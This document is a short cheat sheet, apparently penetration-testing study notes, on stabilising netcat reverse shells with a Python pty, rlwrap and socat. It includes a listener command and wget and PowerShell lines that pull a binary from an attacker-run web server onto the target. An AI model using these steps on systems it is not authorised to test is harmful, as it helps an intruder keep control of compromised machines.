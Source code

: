 Here's a concise summary of the commands used to stabilize netcat shells:

### **Technique 1: Python**
1. **Spawn a bash shell**:  
   ```bash
   python -c 'import pty;pty.spawn("/bin/bash")'
   ```
2. **Set terminal type**:  
   ```bash
   export TERM=xterm
   ```
3. **Background and stabilize the shell**:  
   - Press `Ctrl + Z`  
   - Run:  
     ```bash
     stty raw -echo; fg
     ```
4. **Fix terminal after shell dies**:  
   ```bash
   reset
   ```

---

### **Technique 2: rlwrap**
1. **Install rlwrap (if not already installed)**:  
   ```bash
   sudo apt install rlwrap
   ```
2. **Use rlwrap for the listener**:  
   ```bash
   rlwrap nc -lvnp <port>
   ```
3. **Stabilize the shell (optional)**:  
   - Background with `Ctrl + Z`  
   - Run:  
     ```bash
     stty raw -echo; fg
     ```

---

### **Technique 3: Socat**
1. **Set up a web server on the attacker machine**:  
   ```bash
   sudo python3 -m http.server 80
   ```
2. **Download the Socat binary on the target**:
   - Linux:  
     ```bash
     wget <LOCAL-IP>/socat -O /tmp/socat
     ```
   - Windows (PowerShell):  
     ```powershell
     Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\Windows\Temp\socat.exe
     ```

---

### **Adjusting TTY Size**
1. **Find terminal dimensions** (on attacker):  
   ```bash
   stty -a
   ```
   - Note `rows` and `columns`.
2. **Set terminal dimensions** (on target):  
   ```bash
   stty rows <number>
   stty cols <number>
   ```
